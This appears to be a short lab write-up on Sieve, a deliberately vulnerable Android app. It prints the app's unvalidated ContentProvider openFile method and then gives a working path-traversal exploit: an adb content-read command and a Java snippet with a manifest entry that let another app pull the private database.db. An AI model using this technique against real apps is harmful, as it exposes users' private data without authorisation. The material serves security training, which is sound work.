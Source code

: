 ### android.content.ContentProvider
```java
    @Override // android.content.ContentProvider
    public ParcelFileDescriptor openFile(Uri uri, String mode) {
        int modeCode;
        if (mode.equals("r")) {
            modeCode = 268435456;
        } else if (mode.equals("rw")) {
            modeCode = 805306368;
        } else if (mode.equals("rwt")) {
            modeCode = 805306368;
        } else {
            Log.w(TAG, "Unrecognised code to open file: " + mode);
            return null;
        }
        try {
            return ParcelFileDescriptor.open(new File(uri.getPath()), modeCode);
        } catch (FileNotFoundException e) {
            Log.e(TAG, "ERROR: unable to open file: " + e.getMessage());
            return null;
        }
    }
```

### LFI in android.content.ContentProvider
in FileBackupProvider the openFile lacks validation so it can be exolited by LFI 

#### from adb shell
```shell
content read --uri content://com.mwr.example.sieve.FileBackupProvider/../../../../../../../../../data/data/com.mwr.example.sieve/databases/database.db | base64 -w 0  
```

#### from another app
- java class
```java
TextView textView = findViewById(R.id.text);
        Uri uri = Uri.parse("content://com.mwr.example.sieve.FileBackupProvider/../../../../../../../../../data/data/com.mwr.example.sieve/databases/database.db") ;
        try {
            InputStream inputStream = getContentResolver().openInputStream(uri);
            InputStreamReader streamReader =  new InputStreamReader(inputStream);
            BufferedReader bufferedReader =  new BufferedReader(streamReader);
            String file = "";
            while (bufferedReader.ready()){
                file += bufferedReader.readLine();
                file += "\n";
            }
            textView.setText(file);
        }catch (Exception e){
            textView.setText(e.toString());
        }
```
- AndroidManifest
```xml
<queries>
  <package android:name="<Package name to attack>" ></package>
</queries>
```
